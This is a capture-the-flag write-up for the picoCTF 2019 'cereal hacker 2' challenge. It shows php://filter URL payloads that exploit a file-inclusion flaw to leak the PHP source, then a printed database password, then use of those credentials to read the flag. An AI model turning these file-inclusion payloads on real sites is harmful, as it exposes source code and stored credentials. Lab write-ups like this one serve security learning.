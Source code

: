 # cereal hacker 2 - 500 points

## Description

Get the admin's password. https://2019shell1.picoctf.com/problem/62195/ or http://2019shell1.picoctf.com:62195

## Solution

Using php filters, we can leak the source code.
<http://2019shell1.picoctf.com:62195/?file=php://filter/convert.base64-encode/resource=admin>

```php
<?php

require_once('cookie.php');

if(isset($perm) && $perm->is_admin()){
...
```

This has a reference to `cookie.php`.

<http://2019shell1.picoctf.com:62195/?file=php://filter/convert.base64-encode/resource=cookie>
```php
<?php

require_once('../sql_connect.php');

// I got tired of my php sessions expiring, so I just put all my useful information in a serialized cookie
...
```


This has a reference to `sql_connect.php` which looks interesting. If we can leak the credentials to the database, we can easily solve the problem.

<http://2019shell1.picoctf.com:62195/?file=php://filter/convert.base64-encode/resource=../sql_connect>
```php
$sql_server = 'localhost';
$sql_user = 'mysql';
$sql_pass = 'this1sAR@nd0mP@s5w0rD#%';
$sql_conn = new mysqli($sql_server, $sql_user, $sql_pass);
$sql_conn_login = new mysqli($sql_server, $sql_user, $sql_pass);
```
Leaks the credentials to the database.

Notice that because the host is `2019shell1.picoctf.com`, the same as the shell server, we can connect to `localhost` from the pico shell server.

After connecting, we can simply SELECT the flag from the database.
